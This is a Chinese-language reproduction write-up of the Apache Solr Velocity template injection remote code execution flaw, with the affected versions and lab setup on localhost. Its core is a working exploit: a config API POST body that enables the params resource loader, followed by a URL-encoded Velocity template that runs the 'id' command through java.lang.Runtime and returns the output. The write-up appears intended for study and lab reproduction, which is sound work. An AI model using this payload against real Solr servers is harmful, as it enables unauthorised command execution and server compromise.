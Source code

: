 # Apache Solr Velocity模板注入RCE漏洞复现

一、前言

Solr是一个独立的企业级搜索应用服务器,它对外提供类似于web-service的API接口,用户可以通过http请求,向搜索引擎服务器提交一定格式的XML文件,生成索引,也可以通过http get操作提出查找请求,并得到XML格式的返回结果。

二、漏洞描述

该漏洞的产生是由于两方面的原因：

当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。

Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。
当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。（来自360CERT）
三、影响范围

Apache Solr 5.x - 8.2.0，存在config API版本

四、环境搭建

下载地址

https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/

解压压缩包，启动solr

![1573479758591](C:\Users\15950\AppData\Roaming\Typora\typora-user-images\1573479758591.png)

访问http://127.0.0.1:8983/solr/#/~cores/new_core，添加new_core

![](C:\Users\15950\AppData\Roaming\Typora\typora-user-images\1573479895996.png)

五、漏洞复现

获取core名称

访问http://127.0.0.1:8983/solr/admin/cores?wt=json&indexInfo=false

![1573480278213](C:\Users\15950\AppData\Roaming\Typora\typora-user-images\1573480278213.png)

Apache Solr默认集成VelocityResponseWriter插件，该插件初始化参数中的params.resource.loader.enabled默认值设置为false，但是可以通过POST请求直接修改集合设置，将其设置为true，然后就可以构造特殊的GET请求来实现远程代码执行。

![1573482066083](C:\Users\15950\AppData\Roaming\Typora\typora-user-images\1573482066083.png)

post以下数据，返回200响应码

        {
            "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solr.resource.loader.enabled": "true",
            "params.resource.loader.enabled": "true"
            }
        }
![1573482566107](C:\Users\15950\AppData\Roaming\Typora\typora-user-images\1573482566107.png)

构造paloayer实现rce:

[http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%22id%22))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()\])$str.valueOf($chr.toChars($out.read()))%23end](http://127.0.0.1:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName('java.lang.String'))+%23set($ex=$rt.getRuntime().exec("id"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end)

![1573482681109](C:\Users\15950\AppData\Roaming\Typora\typora-user-images\1573482681109.png)